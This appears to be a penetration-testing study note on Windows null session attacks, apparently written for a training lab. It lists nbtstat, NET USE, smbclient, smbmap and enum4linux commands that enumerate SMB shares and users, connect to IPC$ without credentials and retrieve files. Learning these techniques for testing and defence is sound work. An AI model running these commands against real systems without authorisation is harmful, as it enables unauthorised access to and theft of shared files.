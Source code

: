 ```yaml
---
title: Windows Null session attack
author: amandaguglieri
draft: false
TableOfContents: true
tag: pentesting windows 
---
```


# Windows Null session attack

It’s used to enumerate info (password, system users, system groups. running system processes). A null session attack exploits an authentification vulnerability for Windows Administrative Shares. This lets an attacker connect to a local or remote share without authentification.

## Manually from Windows

1.  **Enumerate File Server services**:    

```cmd
nbtstat -A <target IP>   

# ELS-WINXP   <00>   UNIQUE   Registered
# <00> tells us ELS-WINXP is a workstation.
# <20> says that the file sharing service is up and running on the machine
# UNIQUE tells us that this compiter must have only one IP address assigned
```

2.  **Enumerate Windows Shares**. Once we spot a machine with the File Server service running, we can enumerate:

```
NET VIEW <target IP>
```

3.  Verify if a null attack is possible by exploiting the IPC$ administrative share and trying to connect without valid credentials.

```
NET USE \\<target IP address>\IPC$ ‘’ /u:’’
```

This tells Windows to connect to the IPC$ share by using an empty password and a empty username. It only works with IPC$ (not c$).

## Manually from Linux

Using the samba suite: https://www.samba.org/

1.  **Enumerate File Server services**: 

```bash
nmblookup -A <target IP>
```

2.  Also with the smbclient we can **enumerate the shares** provides by a host:  

```bash
smbclient -L //<target IP> -N

# -L  Look at what services are available on a target
# <targetIP> Prepend the two slahes
# -N  Force the tool not to ask for a password
```

3.  Connect:

```bash
smbclient \\<tt IP>\sharedfolder -N
```

Be careful, sometimes the shell removes the slashes and you need to escape them.

4.  Once connected you can browse with the smb command line. To see allowed commands: help 
5.  When you know the path of a file and you want to retrieve it:
	- from kali: 
	```bash
	smbget smb://<target IP>/SharedFolder/flag_1.txt
	```
	- from  smb command line: 
	```smb
	get flag_1.txt
	```

6.  To map users with permissions

```bash
smbmap -H demo.ine.local
```
 
To get an specific file in a connection: get flag.txt

## Tricks

Enumerate users with enum4linux -U demo.ine.local

Enumerate the permissions of users with smbmap -H demo.ine.local

If some users are missing in the permission list, maybe they are accesible, try with:

```
smbclient -L //<target IP>\<user> -N
```

## More tools

- [Winfo](winfo.md).
- [enum](enum.md).
- [enum4linux](enum4linux.md).
- [SAMRDump](samrdump.md).

